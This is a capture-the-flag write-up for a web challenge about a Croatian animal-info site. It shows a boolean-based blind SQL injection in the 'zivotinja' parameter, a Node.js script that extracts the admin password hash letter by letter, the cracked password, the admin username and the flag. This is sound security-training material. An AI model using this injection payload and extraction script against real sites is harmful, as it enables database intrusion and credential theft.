




# SELECT error FROM info

> Category: Web

> Points: 250

## Challenge Description

> translated: Petra's site about wild animals worked well before too, but it had a few errors which Petra fixed immediately. Apart from just fixing them, she added some new features. There's a new site "Info" which contains interesting informations about animals, and a page "Log in" on which people that have an account can log in. Currently, only Petra has an account, and she is the only person that can sign in. Even though the site is still unfinished, Petra wanted to share her with you.

> native: Petrina stranica o divljim životinjama je i prije dobro radila, ali je imala nekih grešaka koje je Petra odmah popravila. Osim popravka, dodala je nove mogućnosti. Postoji nova stranica "Info" koja sadrži zanimljive informacije o životinjama i stranica "Ulogiraj se" na kojoj se mogu ulogirati osobe koje imaju korisnički račun. Trenutno, samo Petra ima korisnički račun i ona je jedina osoba koja se može ulogirati.
> Iako je stranica još uvijek nedovršena, Petra bi ju htjela podijeliti s tobom! 

## Analysis

So right away from the title, this task suggests SQL injection.



Let's look into that Info page. It sends out a query immediately to ?animal=Lion (?zivotinja=Lav).

Since the value of that request is successful, it gives us a sentence about lions.



Let's try to throw some SQL queries together with this.

We notice that when we do ```info.php?zivotinja=Lav' AND SUBSTRING((SELECT username FROM users LIMIT 1), 1, 1) = 'a```` it returns the same string.

The solution we came up with here isn't ideal by any means, because it is literally a bruteforce JS script, that uses an alphanumeric string and goes letter by letter to grab the password hash and admin name.

We knew from some other tasks that registering on the website makes the password hash encrypted.

Sometimes it was SHA256, and sometimes SHA128, but we decided to brute it like this.

The script we came up with looks a little something like this:

```js
let axios = require('axios');

var alphanumeric = "0123456789abcdefghijklmnoprstuvzxyz";
var str = "Lav' AND SUBSTRING((SELECT password FROM users LIMIT 1), {REPLACE_NUM}, 1) = '";
var hash = "";

async function getHash() {
    for (let i = 1; i < 270; ++i) {
        for (char in alphanumeric) {
            x = alphanumeric[char];
            var uri = str.replace('{REPLACE_NUM}', i.toString());
            let result = await axios({
                url: 'http://chal.hacknite.hr:9105/info.php?zivotinja=' + uri + x,
                method: 'get',
                timeout: 8000
            });
            
            await new Promise(resolve => setTimeout(resolve, 500)); // 500ms timeout because of rules regarding requests

            if (result.data.includes('- Lav je životinjska vrsta iz porodice mačaka.')) {
                hash = hash + x;
                console.log( x + ' - ' + hash);
                break;
            }
        }
        
        if (hash.length != i) {
            break;
        }
    }    
}

getHash();

console.log(hash);
```

The script output looked a little bit like this:



We did the same thing for admin, which was stored in plaintext in the database and whose value was "admin128723".

To decode the hash value we used this website: https://crackstation.net/

The result was plaintext: october

When we logged into the website, this appeared:



## FLAG

> CTF2021[294217488986]